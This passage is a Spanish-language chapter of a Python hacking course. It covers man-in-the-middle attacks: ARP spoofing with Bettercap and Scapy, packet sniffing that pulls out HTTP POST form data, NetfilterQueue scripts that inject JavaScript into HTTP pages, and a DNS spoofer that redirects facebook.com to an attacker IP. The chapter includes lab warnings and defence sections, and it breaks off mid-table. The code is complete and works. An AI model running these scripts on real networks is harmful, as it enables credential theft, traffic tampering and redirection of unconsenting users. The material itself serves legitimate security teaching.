

| **Inicio**         | **atrás 5**                                                                         | **Siguiente 7**                                                            |
| ------------------ | ----------------------------------------------------------------------------------- | -------------------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_5_Python_Hacking_y_Explotacion_de_Vulnerabilidades_en_Hosts_con_Python.md) | [⏩](./4_7_Python_Hacking_y_Explotacion_de_aplicaciones_Web_con_Python.md) |

---

## **Índice**

| Temario                                                                                                                            |
| ---------------------------------------------------------------------------------------------------------------------------------- |
| [232. Man In The Middle (MITM) y ARP Spoofing](#232-man-in-the-middle-mitm-y-arp-spoofing)                                         |
| [233. ARP Spoofing con Python](#233-arp-spoofing-con-python)                                                                       |
| [234. Interceptación de tráfico de red en tiempo real con Python](#234-interceptación-de-tráfico-de-red-en-tiempo-real-con-python) |
| [235. Modificación de tráfico de red en tiempo real con Python](#235-modificación-de-tráfico-de-red-en-tiempo-real-con-python)     |
| [236. Modificación de tráfico HTTP en tiempo real](#236-modificación-de-tráfico-http-en-tiempo-real)                               |
| [237. Introducción a DNS Spoofing](#237-introducción-a-dns-spoofing)                                                               |
| [238. DNS Spoofing con Python](#238-dns-spoofing-con-python)                                                                       |
| [239. Unas palabras sobre SSLStrip y HSTS](#239-unas-palabras-sobre-sslstrip-y-hsts)                                               |
| [240. Detectar ARP Spoofing con Python](#240-detectar-arp-spoofing-con-python)                                                     |
| [241. Fuerza Bruta SSH con Python](#241-fuerza-bruta-ssh-con-python)                                                               |
| [242. DHCP Listener con Python](#242-dhcp-listener-con-python)                                                                     |
| [243. MAC Spoofing con Python](#243-mac-spoofing-con-python)                                                                       |

---

# **Python Hacking y Explotacion de redes informaticas con Python**

## **232. Man In The Middle (MITM) y ARP Spoofing**


### 🧠 ¿Qué es un ataque **Man In The Middle (MITM)**?

**MITM** significa "**Hombre en el medio**", y como su nombre lo indica, el atacante se **interpone entre dos partes** que se están comunicando para **interceptar, modificar o robar** la información que se están enviando.

#### 📌 Ejemplo simple (con analogía):

Imagina que **Ana** quiere enviarle una carta a **Carlos**, pero la carta pasa por **Luis (el atacante)**.

- Ana piensa que se la está enviando a Carlos.
- Carlos cree que le llegó directamente de Ana.
- Pero Luis la interceptó, leyó el contenido, y si quiere, la modifica antes de que llegue.

> Así funciona un MITM. El atacante está **en medio**, sin que las víctimas lo sepan.

---

### 📡 ¿Qué es **ARP Spoofing**?

**ARP Spoofing** es una técnica para ejecutar un ataque MITM dentro de una red local (LAN).

- **ARP** = Address Resolution Protocol
- Es el protocolo que permite a los dispositivos de una red **saber qué dirección MAC** tiene una IP dada.

#### 📌 Analogía:

Imagina que estás en un salón de clases, y gritas:

> “¡Oye! ¿Quién tiene la IP 192.168.0.1?”

Y alguien responde (correctamente o no):

> “¡Esa IP es mía, mi dirección MAC es 00\:AA\:BB\:CC\:DD\:EE!”

Pero un **atacante malicioso** podría responder:

> “¡No, esa IP es mía! Aquí está mi dirección MAC…”

Entonces los datos que iban al router (o a otro equipo) **van ahora al atacante**. Él puede:

- Verlos.
- Modificarlos.
- Reenviarlos al destino real (sin que nadie se dé cuenta).

---

### 🎯 ¿Cómo funciona el ataque MITM con ARP Spoofing?

1. Tienes 3 dispositivos en la misma red:

   - 💻 Victima
   - 📡 Router
   - 👨‍💻 Atacante

2. El atacante **engaña** a la víctima para que crea que su dirección MAC es la del router.

3. Engaña al router para que crea que su MAC es la de la víctima.

4. Ahora, todo lo que la víctima le manda al router, **pasa por el atacante**.

🔁 El atacante puede:

- Leer contraseñas.
- Ver páginas web que visita.
- Incluso cambiar contenido (por ejemplo, insertar malware o redirigir tráfico).

---

### 🧪 ¿Cómo simular esto en un entorno de estudio?

**⚠️ Solo debes hacer esto en entornos de laboratorio o máquinas virtuales, y nunca en redes ajenas o sin permiso.**

#### 🔧 Herramientas necesarias:

- 🐧 **Kali Linux** (distribución especializada en pentesting)
- 🕷️ **Ettercap** o **Bettercap** (para hacer ARP spoofing y MITM)
- 🔬 **Wireshark** (para analizar tráfico de red)
- 🌐 Una red local simulada, como con:

  - VirtualBox o VMware (máquinas virtuales)
  - GNS3 o EVE-NG (simuladores de redes)
  - Herramientas como `net-tools` y `tcpdump`

---

### 🛠️ Instalación paso a paso (en Kali Linux)

##### 🖥️ Paso 1: Instalar las herramientas

```bash
sudo apt update
sudo apt install ettercap-graphical wireshark bettercap net-tools
```

#### 🖥️ Paso 2: Ver interfaces de red

```bash
ifconfig  # o
ip a
```

Anota el nombre de tu interfaz (ej: `eth0`, `wlan0`)

---

### 🔄 Ejemplo de ataque ARP Spoofing con **Bettercap**

#### Paso 1: Iniciar Bettercap

```bash
sudo bettercap -iface eth0
```

#### Paso 2: Dentro de Bettercap, ejecuta:

```bash
net.probe on                 # Escanea la red
set arp.spoof.targets 192.168.0.5  # IP de la víctima
arp.spoof on                # Inicia el ataque ARP Spoofing
net.sniff on                # Captura paquetes de la víctima
```

#### Paso 3: Ver tráfico interceptado

Puedes abrir **Wireshark** al mismo tiempo:

```bash
sudo wireshark
```

Y ver qué paquetes pasan a través de tu máquina.

---

### 🛡️ ¿Cómo protegerse de un ataque MITM?

- Usar **HTTPS siempre** (con certificado válido).
- Activar **detección de ARP Spoofing** en routers o firewalls.
- Usar herramientas como **arpwatch** para monitorear cambios de MAC en la red.
- Implementar **segmentación de red**.
- Activar **Static ARP tables** (en entornos críticos).
- **VPN** puede evitar que los datos sean leídos aun si son interceptados.

---

### 📌 Resumen visual

```
[Víctima] <---> [Atacante con ARP Spoofing] <---> [Router/Internet]

El atacante puede:
✔ Leer paquetes
✔ Modificarlos
✔ Reenviarlos
```

---

### ✅ Recomendaciones para tu laboratorio

1. Crea dos máquinas virtuales (una víctima y una atacante).
2. Usa **Kali Linux** en la atacante.
3. Usa **Ubuntu o Windows** en la víctima.
4. Asegúrate de que ambas estén **en la misma red (modo bridge o NAT)**.
5. Realiza ataques MITM **solo dentro de esa red local simulada**.

---

[🔼](#índice)

---

## **233. ARP Spoofing con Python**

### 🧠 ¿Qué es ARP Spoofing (repaso rápido)?

El ataque de **ARP Spoofing** se basa en **enviar respuestas ARP falsas** dentro de una red local (LAN), para engañar a las máquinas y hacerles creer que **tú eres otra máquina** (por ejemplo, el router).

🧱 En términos simples:

> "Le dices a la víctima: Yo soy el router."
>
> "Le dices al router: Yo soy la víctima."

Esto permite que **el atacante intercepte todo el tráfico entre ambos** (ataque MITM).

---

### 🐍 ¿Se puede hacer ARP Spoofing con Python?

**Sí**, usando la librería `scapy`, que te permite **crear y enviar paquetes de red personalizados**.

---

### ✅ Requisitos del entorno de laboratorio

#### 1. Entorno recomendado

- Sistema: Linux (idealmente Kali Linux o Ubuntu)
- Herramientas:

  - Python 3
  - `scapy`
  - Wireshark (para ver el tráfico)

- Red: una red local o red virtual (VirtualBox o VMware)

#### 2. Instalar herramientas necesarias

```bash
sudo apt update
sudo apt install python3 python3-pip wireshark net-tools
pip3 install scapy
```

---

### 📦 ¿Qué es Scapy?

`Scapy` es una librería de Python que permite:

- Crear paquetes de red personalizados (ARP, IP, TCP, etc.)
- Enviarlos
- Escucharlos y analizarlos

---

### 🔧 Código Python para ARP Spoofing paso a paso

Vamos a ver un ejemplo básico.

#### 🔁 Paso 1: Código para hacer ARP Spoofing

```python
from scapy.all import ARP, Ether, send
import time

def get_arp_response(ip, target_mac, spoof_ip):
    # Construye un paquete ARP falso
    arp_response = ARP(
        op=2,                  # 1=request, 2=reply
        pdst=ip,               # IP de la víctima
        hwdst=target_mac,      # MAC de la víctima
        psrc=spoof_ip          # IP suplantada (por ejemplo, la del router)
    )
    return arp_response

def arp_spoof(target_ip, target_mac, spoof_ip):
    print(f"[+] Suplantando {spoof_ip} con nuestra MAC para {target_ip}")
    packet = get_arp_response(target_ip, target_mac, spoof_ip)
    send(packet, verbose=False)

# Datos de ejemplo - deberías obtenerlos con un escaneo de red antes
victim_ip = "192.168.0.5"
victim_mac = "AA:BB:CC:DD:EE:FF"
router_ip = "192.168.0.1"

try:
    while True:
        arp_spoof(victim_ip, victim_mac, router_ip)
        time.sleep(2)
except KeyboardInterrupt:
    print("\n[!] Ataque interrumpido por el usuario")
```

---

### 🧪 ¿Cómo obtener la MAC de la víctima?

Puedes hacer un escaneo ARP de tu red con:

```bash
arp -a  # En Linux o Windows
```

O desde Python con `scapy`, o con la herramienta `netdiscover`.

---

### 🚫 ¡IMPORTANTE!

Este script **no revierte** los cambios en la tabla ARP de la víctima. Si quieres ser más ético, puedes añadir una función para restaurar la tabla:

```python
def restore(target_ip, target_mac, real_ip, real_mac):
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac,
                 psrc=real_ip, hwsrc=real_mac)
    send(packet, count=5, verbose=False)
```

Y cuando termines el ataque, podrías llamar a:

```python
restore(victim_ip, victim_mac, router_ip, router_mac)
```

---

### 🧪 Simulación del ataque

#### Paso a paso para probar el ataque:

1. Crea dos máquinas virtuales:

   - Kali Linux (atacante)
   - Ubuntu o Windows (víctima)

2. Asegúrate de que ambas estén **en la misma red** (modo NAT o Bridge).
3. En la máquina víctima, abre un navegador y navega a algún sitio (por ejemplo: `http://example.com`).
4. Corre el script de Python desde el atacante.
5. Abre Wireshark en la máquina atacante para ver si capturas paquetes de la víctima.

---

### 🔐 ¿Cómo prevenir ARP Spoofing?

- Usar **conmutadores con seguridad ARP (port security)**.
- Usar herramientas como `arpwatch` o `XArp` para detectar cambios sospechosos.
- Usar **HTTPS y VPN** (aunque te intercepten, el contenido va cifrado).
- Activar **IP/MAC binding estático** en routers avanzados.

---

### 🧠 Resumen final

| Concepto          | Explicación                                                                     |
| ----------------- | ------------------------------------------------------------------------------- |
| ARP Spoofing      | Enviar respuestas ARP falsas para asociar tu MAC con la IP del router o víctima |
| Herramienta usada | Python + Scapy                                                                  |
| Finalidad         | Interceptar tráfico local (Man In The Middle)                                   |
| Precaución        | Solo en entornos de laboratorio o con fines educativos                          |

---

[🔼](#índice)

---

## **234. Interceptación de tráfico de red en tiempo real con Python**

### 🧠 ¿Qué significa "interceptar tráfico de red en tiempo real"?

Significa **ver y analizar los paquetes** (datos) que viajan entre computadoras o dispositivos **mientras se están transmitiendo**, como:

- Cuando alguien abre una página web.
- Cuando hace login.
- Cuando se conecta a un servicio.

Esto se hace **capturando paquetes directamente de la red**, una técnica llamada **packet sniffing** o "escucha de red".

> ⚠️ **IMPORTANTE**: Esta práctica es solo para fines educativos o auditoría autorizada. **No se debe hacer en redes ajenas sin permiso.**

---

### 🛠️ ¿Qué necesitas para interceptar tráfico con Python?

#### 📦 Herramienta: [`Scapy`](https://scapy.net/)

Es una librería de Python que permite:

- Capturar paquetes.
- Analizarlos.
- Modificarlos o reenviarlos.

---

### ✅ Instalación del entorno (en Linux)

Requisitos: tener privilegios de root o sudo

```bash
sudo apt update
sudo apt install python3 python3-pip net-tools wireshark
pip3 install scapy
```

---

### 🖥️ ¿Qué interfaz de red estás usando?

Primero, averigua el nombre de tu interfaz (como `eth0`, `wlan0`, etc.)

```bash
ip a
```

Anota la que tenga tu IP, por ejemplo `eth0`.

---

### 🔍 Ejemplo 1: Sniffer básico en tiempo real

```python
from scapy.all import sniff

def packet_callback(packet):
    print(packet.summary())  # Muestra un resumen de cada paquete

# Captura 0 = captura infinita
sniff(prn=packet_callback, iface="eth0", store=False)
```

#### 🔎 ¿Qué hace este script?

- Escucha todos los paquetes que pasan por la interfaz `eth0`.
- Cada vez que detecta uno, llama a la función `packet_callback()`.
- Imprime un resumen del paquete (protocolo, IPs, etc.).

---

### 📦 Ejemplo 2: Capturar solo paquetes HTTP

```python
from scapy.all import sniff
from scapy.layers.http import HTTPRequest

def http_packet(packet):
    if packet.haslayer(HTTPRequest):
        method = packet[HTTPRequest].Method.decode()
        host = packet[HTTPRequest].Host.decode()
        path = packet[HTTPRequest].Path.decode()
        print(f"[HTTP] {method} http://{host}{path}")

sniff(iface="eth0", filter="tcp port 80", prn=http_packet, store=False)
```

#### 🔍 ¿Qué hace?

- Solo captura paquetes HTTP (puerto 80).
- Detecta el método (`GET`, `POST`) y la URL.
- Muy útil para ver navegación sin cifrado.

---

### 🔑 Ejemplo 3: Capturar datos de formularios HTTP

```python
from scapy.all import sniff
from scapy.layers.http import HTTPRequest

def extract_http_post(packet):
    if packet.haslayer(HTTPRequest):
        if packet[HTTPRequest].Method == b"POST":
            raw = packet[Raw].load if packet.haslayer(Raw) else None
            if raw:
                print("[POST Data Detected]")
                print(raw.decode(errors='ignore'))

sniff(iface="eth0", filter="tcp port 80", prn=extract_http_post, store=False)
```

> 🛡️ **Ojo**: Si se usa HTTPS (puerto 443), estos datos estarán cifrados y **no podrás verlos** sin MITM.

---

### 📺 Tip: Ver tráfico en vivo en paralelo con Wireshark

Puedes correr Wireshark a la vez:

```bash
sudo wireshark
```

Y ver los paquetes visualmente mientras tu script en Python los imprime.

---

### 🧪 ¿Cómo practicar esto en un laboratorio?

#### 🔨 Recomendado:

1. **Dos máquinas virtuales** (una víctima y una atacante):

   - Kali Linux o Ubuntu (Python sniffer)
   - Windows o Ubuntu (víctima)

2. Red en modo **"red interna"** o **"NAT con red local"** en VirtualBox.

3. En la víctima, navega a páginas de prueba como:

   - [http://example.com](http://example.com)
   - [http://testphp.vulnweb.com](http://testphp.vulnweb.com)

4. Corre tu script Python en la atacante y mira cómo aparecen los paquetes.

---

### 📌 Resumen

| Concepto              | Explicación                                 |
| --------------------- | ------------------------------------------- |
| Packet Sniffing       | Interceptar paquetes de red en tiempo real  |
| Herramienta principal | Python + Scapy                              |
| Filtros útiles        | `"tcp port 80"`, `"udp"`, `"icmp"`          |
| Formas de practicar   | Red virtual con máquinas víctima y atacante |
| Limitaciones          | No puedes leer HTTPS (va cifrado sin MITM)  |

---

### 🔐 ¿Cómo defenderse?

- Usar **HTTPS siempre** (cifra los datos).
- Usar una **VPN**.
- Configurar segmentación de red y switches administrados.
- Detectar sniffers con herramientas como `arpwatch`, `Snort` o `Zeek`.

---

[🔼](#índice)

---

## **235. Modificación de tráfico de red en tiempo real con Python**

### 🧠 ¿Qué significa modificar tráfico de red en tiempo real?

Modificar tráfico de red en tiempo real implica:

> **Interceptar paquetes mientras se transmiten y cambiar su contenido antes de reenviarlos.**

Esto es una técnica avanzada de **Man-In-The-Middle (MITM)**. Se suele usar para:

- Inyectar código (por ejemplo, JS en una página).
- Redirigir a otro sitio web.
- Alterar respuestas o solicitudes HTTP.

> ⚠️ **IMPORTANTE:** Esto solo debe hacerse en un entorno controlado, con fines educativos o de auditoría autorizada. Nunca en redes ajenas o reales sin consentimiento.

---

### 🛠️ ¿Qué se necesita?

#### Herramientas clave:

| Herramienta        | ¿Para qué sirve?                           |
| ------------------ | ------------------------------------------ |
| **Python 3**       | Lenguaje de scripting principal            |
| **Scapy**          | Captura y envío de paquetes                |
| **NetfilterQueue** | Redirige paquetes del kernel a Python      |
| **iptables**       | Redirecciona tráfico a la cola (Netfilter) |

---

### ✅ Instalación del entorno (en Kali Linux o Ubuntu)

1. **Instalar dependencias**

```bash
sudo apt update
sudo apt install python3-pip libnetfilter-queue-dev iptables
pip3 install scapy netfilterqueue
```

2. (Opcional) Asegúrate de tener habilitado IP forwarding:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

---

### ⚙️ ¿Cómo funciona todo esto?

#### 🔁 Flujo general:

1. Un usuario intenta visitar una web (por ejemplo, `http://example.com`).
2. Tú haces ARP spoofing para situarte como MITM.
3. Con `iptables`, rediriges los paquetes al programa de Python.
4. Python analiza y **modifica el contenido** (por ejemplo, reemplaza texto o inyecta JS).
5. Luego, reenvía el paquete modificado a su destino original.

---

### 🔥 Ejemplo completo: Modificar HTML para inyectar JavaScript

#### 🧪 Objetivo:

Cuando una víctima navegue una página no cifrada (HTTP), el atacante **inyecta un `<script>`** que lanza una alerta (como prueba).

---

#### 🧱 Paso 1: Script Python – `injector.py`

```python
from netfilterqueue import NetfilterQueue
from scapy.all import *
import re

# Inyección: un simple JS para test
INJECTION_CODE = '<script>alert("Hola desde el atacante!");</script>'

def process_packet(packet):
    scapy_packet = IP(packet.get_payload())

    # Solo modificar paquetes HTTP (puerto 80) con contenido
    if scapy_packet.haslayer(Raw):
        load = scapy_packet[Raw].load

        # Verifica si es una respuesta HTTP
        if b"HTTP/" in load and b"Content-Type: text/html" in load:
            print("[+] Paquete HTTP detectado... modificando")

            # Inyectar el código antes de </body>
            modified_load = load.replace(b"</body>", INJECTION_CODE.encode() + b"</body>")

            # Corregir el tamaño del paquete (Content-Length)
            content_length_search = re.search(br"Content-Length:\s*(\d+)", modified_load)
            if content_length_search:
                old_length = int(content_length_search.group(1))
                new_length = old_length + len(INJECTION_CODE)
                modified_load = re.sub(
                    br"Content-Length:\s*\d+",
                    f"Content-Length: {new_length}".encode(),
                    modified_load
                )

            # Actualiza el paquete
            scapy_packet[Raw].load = modified_load

            # Elimina los checksums para que Scapy los recalculen
            del scapy_packet[IP].len
            del scapy_packet[IP].chksum
            del scapy_packet[TCP].chksum

            # Enviar el paquete modificado
            packet.set_payload(bytes(scapy_packet))

    packet.accept()

# Inicializa la cola
nfqueue = NetfilterQueue()
nfqueue.bind(0, process_packet)

print("[*] Esperando paquetes... presiona Ctrl+C para salir")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Cerrando.")
```

---

#### 🧱 Paso 2: Redirige tráfico con `iptables`

Redirige los paquetes de salida HTTP a la NetfilterQueue:

```bash
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Si estás haciendo pruebas **en tu propia máquina**, puedes usar:

```bash
sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```

---

#### 🧱 Paso 3: Ejecuta el script

```bash
sudo python3 injector.py
```

---

#### 🧱 Paso 4: Prueba en una víctima

1. La víctima accede a `http://example.com` o cualquier sitio que **no use HTTPS**.
2. El script intercepta la respuesta y **modifica el HTML**, inyectando el `<script>`.
3. El navegador de la víctima mostrará una **alerta emergente**.

---

### 🔄 Para desactivar al final:

```bash
sudo iptables --flush
```

---

### 🧪 ¿Dónde practicar esto?

#### Opción recomendada:

- 2 máquinas virtuales:

  - Kali Linux (atacante)
  - Ubuntu o Windows (víctima)

- Modo red interna (en VirtualBox)
- Usa un servidor web simple en la víctima:

```bash
# En máquina víctima
python3 -m http.server 80
```

- Desde la atacante, inyecta tráfico hacia ese servidor.

---

### 🛡️ ¿Cómo se protegen las víctimas reales?

- Usando **HTTPS (TLS)**: cifra los datos para que no puedan ser modificados sin romper la conexión.
- Usando **VPN**: cifra todo el canal.
- Seguridad en switches y detección de MITM.
- DNS over HTTPS/SSL.

---

### 📌 Resumen

| Paso                   | Detalle                             |
| ---------------------- | ----------------------------------- |
| Captura de paquetes    | Con NetfilterQueue y Scapy          |
| Modificación           | Se inyecta código al contenido HTTP |
| Redirección de tráfico | Con iptables hacia la cola          |
| Prueba                 | Se modifica HTML y se inserta JS    |
| Prevención real        | HTTPS, VPN, detección de spoofing   |

---

[🔼](#índice)

---

## **236. Modificación de tráfico HTTP en tiempo real**

### 🧠 ¿Qué es la modificación de tráfico HTTP en tiempo real?

Es un tipo de ataque/intervención en el que un atacante:

- Se **interpone entre el cliente (navegador)** y el **servidor web** (generalmente con un ataque MITM como ARP Spoofing).
- **Intercepta y modifica** las respuestas HTTP antes de que lleguen al navegador de la víctima.
- Es posible porque **HTTP no está cifrado**.

> ⚠️ Esto no funciona con HTTPS (porque va cifrado) a menos que se rompa el cifrado con técnicas avanzadas como SSL stripping (que no abordaremos aquí por razones éticas y legales).

---

### 📦 Herramientas necesarias

| Herramienta          | Función                                             |
| -------------------- | --------------------------------------------------- |
| Python 3             | Lenguaje de scripting                               |
| Scapy                | Crear, modificar y reenviar paquetes                |
| NetfilterQueue       | Permite manipular paquetes desde el kernel a Python |
| iptables             | Redirige tráfico al script de Python                |
| Wireshark (opcional) | Verificación y análisis de tráfico                  |

---

### ✅ Instalación del entorno

#### 1. Instala dependencias

```bash
sudo apt update
sudo apt install python3 python3-pip libnetfilter-queue-dev iptables
pip3 install scapy netfilterqueue
```

#### 2. Habilita el redireccionamiento de IP (si estás en modo MITM)

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

---

### 🎯 ¿Qué vamos a hacer?

Modificaremos una página web **HTTP** en tiempo real. Por ejemplo:

- El navegador de la víctima accede a `http://testphp.vulnweb.com`.
- El atacante modifica el HTML en vivo e inyecta un **`<script>` de alerta**.
- El navegador muestra la alerta como si viniera del servidor.

---

### 📜 Código completo: `http_injector.py`

```python
from netfilterqueue import NetfilterQueue
from scapy.all import IP, TCP, Raw
import re

# Código que queremos inyectar
INJECTION = '<script>alert("¡Código inyectado con éxito!");</script>'

def process_packet(packet):
    scapy_pkt = IP(packet.get_payload())

    # Solo procesamos paquetes TCP con datos (HTTP normalmente usa TCP)
    if scapy_pkt.haslayer(Raw) and scapy_pkt.haslayer(TCP):
        load = scapy_pkt[Raw].load

        # Buscamos respuestas HTTP que contengan HTML
        if b"HTTP/" in load and b"Content-Type: text/html" in load:
            print("[+] Paquete HTTP detectado")

            # Inyectamos antes de </body>
            new_load = load.replace(b"</body>", INJECTION.encode() + b"</body>")

            # Actualizamos el Content-Length si es que existe
            content_length = re.search(br"Content-Length:\s*(\d+)", new_load)
            if content_length:
                old_length = int(content_length.group(1))
                new_length = old_length + len(INJECTION)
                new_load = re.sub(
                    br"Content-Length:\s*\d+",
                    f"Content-Length: {new_length}".encode(),
                    new_load
                )

            # Reemplazamos el payload modificado
            scapy_pkt[Raw].load = new_load

            # Recalculamos checksums y longitudes
            del scapy_pkt[IP].len
            del scapy_pkt[IP].chksum
            del scapy_pkt[TCP].chksum

            # Actualizamos el paquete
            packet.set_payload(bytes(scapy_pkt))

    packet.accept()

# Crear e iniciar la cola
nfqueue = NetfilterQueue()
nfqueue.bind(0, process_packet)

print("[*] Escuchando tráfico HTTP para inyección...")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Interrumpido por el usuario.")
```

---

### 🔁 Configuración de iptables

#### Si estás haciendo MITM (ej. usando ARP Spoofing):

```bash
sudo iptables -I FORWARD -p tcp --dport 80 -j NFQUEUE --queue-num 0
```

#### Si estás interceptando tráfico **local (tu propia máquina)**:

```bash
sudo iptables -I OUTPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0
sudo iptables -I INPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0
```

---

### ▶️ Ejecución del script

```bash
sudo python3 http_injector.py
```

Mientras el script está corriendo, accede desde la víctima (o desde la misma máquina si estás haciendo pruebas locales) a una página HTTP como:

```
http://example.com
http://testphp.vulnweb.com
```

📌 Si todo está bien:

- Verás en la consola `[+] Paquete HTTP detectado`.
- El navegador mostrará una **alerta emergente** gracias al JavaScript inyectado.

---

### ✅ Para limpiar iptables después

```bash
sudo iptables --flush
```

---

### 🧪 ¿Cómo hacer pruebas en laboratorio?

#### 🔧 Opción 1: Todo en una misma máquina

- Levanta un servidor local con HTML sin HTTPS:

```bash
python3 -m http.server 80
```

- Luego abre `http://localhost` en el navegador.

#### 🔧 Opción 2: Dos máquinas virtuales (mejor)

- Una máquina Kali Linux (atacante)
- Una máquina Ubuntu o Windows (víctima)
- Ambas conectadas en red interna (VirtualBox)
- Usa ARP Spoofing para ponerte como MITM
- Luego ejecuta el script y prueba HTTP desde la víctima

---

### 🔐 ¿Cómo protegerse de este tipo de modificación?

| Protección            | ¿Por qué ayuda?                                   |
| --------------------- | ------------------------------------------------- |
| Usar HTTPS            | Cifra el contenido, impidiendo ver o modificar    |
| VPN                   | Protege todo el canal, incluso en redes inseguras |
| Seguridad de switches | Previene ataques MITM con ARP spoofing            |
| Firewall o IDS        | Puede detectar cambios sospechosos                |

---

### 📌 Resumen

| Elemento        | Descripción                            |
| --------------- | -------------------------------------- |
| Objetivo        | Modificar tráfico HTTP interceptado    |
| Método          | NetfilterQueue + Scapy + iptables      |
| Ejemplo         | Inyectar `<script>` en respuestas HTML |
| Requisitos      | Linux, Python, permisos sudo           |
| Protección real | HTTPS, VPN, detección de MITM          |

---

[🔼](#índice)

---

## **237. Introducción a DNS Spoofing**



### 🧠 ¿Qué es DNS Spoofing?

#### 📘 Definición sencilla:

**DNS Spoofing** (también llamado DNS cache poisoning) es una técnica en la que un atacante **responde falsamente a una consulta DNS**, haciendo que una víctima **visite un sitio falso**, aunque escribió la dirección correcta.

> "El usuario quiere ir a `facebook.com`, pero lo llevas a tu propio servidor falso."

---

### 📡 ¿Cómo funciona DNS normalmente?

Cuando un usuario escribe `facebook.com`:

1. Su computadora **pregunta al servidor DNS**:

   > "¿Cuál es la IP de facebook.com?"

2. El servidor responde:

   > "La IP es 157.240.1.35"

3. El navegador se conecta a esa IP.

---

### 😈 ¿Qué hace un atacante con DNS Spoofing?

El atacante:

- **Se mete entre el usuario y el DNS** (MITM, usando ARP Spoofing).
- Cuando el usuario pregunta “¿Cuál es la IP de facebook.com?”, el atacante responde primero:

  > “¡Es 192.168.1.100!” (una IP falsa que apunta a un sitio falso que el atacante controla).

---

### 🧪 Resultado

La víctima cree que está en `facebook.com`, pero en realidad está en un sitio falso. El atacante puede:

- Robar credenciales
- Instalar malware
- Registrar actividad

---

### 🛠️ Herramientas necesarias

| Herramienta            | ¿Para qué sirve?                              |
| ---------------------- | --------------------------------------------- |
| **Python 3**           | Lenguaje para scripting                       |
| **Scapy**              | Para construir y enviar paquetes DNS falsos   |
| **ARP Spoofing**       | Para ponerte como "MITM" en la red            |
| **iptables**           | Para redirigir tráfico                        |
| **Servidor web falso** | Para servir páginas falsas si quieres engañar |

---

### ✅ Instalación en Linux (Kali, Ubuntu)

```bash
sudo apt update
sudo apt install python3 python3-pip net-tools
pip3 install scapy
```

---

### 🎯 Flujo de ataque

1. Te pones como MITM con **ARP Spoofing** (ya sabes cómo).
2. Escuchas paquetes DNS de la víctima.
3. Si la víctima pregunta por `facebook.com`, tú envías una **respuesta falsa antes que el DNS real**.
4. El navegador de la víctima se conecta a una IP falsa.

---

### 📜 Ejemplo completo: `dns_spoofer.py`

```python
from scapy.all import *
import sys

# Dominio objetivo y la IP falsa que quieres que apunte
target_domain = "facebook.com"
fake_ip = "192.168.1.100"  # Debe ser la IP de tu máquina atacante o de un servidor falso

def spoof_dns(pkt):
    if pkt.haslayer(DNS) and pkt.getlayer(DNS).qr == 0:  # Es una consulta
        qname = pkt[DNSQR].qname.decode()
        if target_domain in qname:
            print(f"[+] DNS request for {qname} - Spoofing response!")

            # Crear respuesta falsa
            spoofed_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/ \
                          UDP(dport=pkt[UDP].sport, sport=53)/ \
                          DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                              an=DNSRR(rrname=qname, ttl=10, rdata=fake_ip))

            send(spoofed_pkt, verbose=0)

# Escuchar paquetes DNS de la red
print("[*] Escuchando solicitudes DNS...")
sniff(filter="udp port 53", prn=spoof_dns)
```

---

### 🧪 ¿Cómo probarlo?

#### 🔧 Entorno ideal (laboratorio seguro):

1. Dos máquinas virtuales:

   - Kali Linux (atacante)
   - Ubuntu o Windows (víctima)

2. Asegúrate que están en la misma red (modo NAT o red interna).

3. Haz **ARP Spoofing** para situarte como MITM.

4. En la víctima, abre un navegador y entra a:

```
http://facebook.com
```

5. Si todo está bien:

   - El navegador irá a la IP falsa (ej. `192.168.1.100`).
   - Puedes tener ahí un **servidor web falso** con HTML simulado (ej. `python3 -m http.server 80`).

---

### 🔄 Opcional: Crear servidor falso con página de prueba

```bash
mkdir fake_site
cd fake_site
echo "<h1>¡Fuiste engañado!</h1>" > index.html
python3 -m http.server 80
```

La víctima verá tu página falsa en lugar de la real.

---

### 🔐 ¿Cómo prevenir DNS Spoofing?

| Protección                | ¿Por qué ayuda?                                    |
| ------------------------- | -------------------------------------------------- |
| Usar DNSSEC               | Verifica autenticidad de respuestas DNS            |
| Usar HTTPS                | Aunque llegues a sitio falso, navegador lo detecta |
| VPN                       | Trafico DNS va cifrado                             |
| Seguridad de switches     | Previene MITM por ARP Spoofing                     |
| Usar DNS over HTTPS (DoH) | Cifra las consultas DNS                            |

---

### 📌 Resumen final

| Elemento           | Detalle                                      |
| ------------------ | -------------------------------------------- |
| Técnica            | DNS Spoofing                                 |
| Objetivo           | Redirigir al usuario a una IP falsa          |
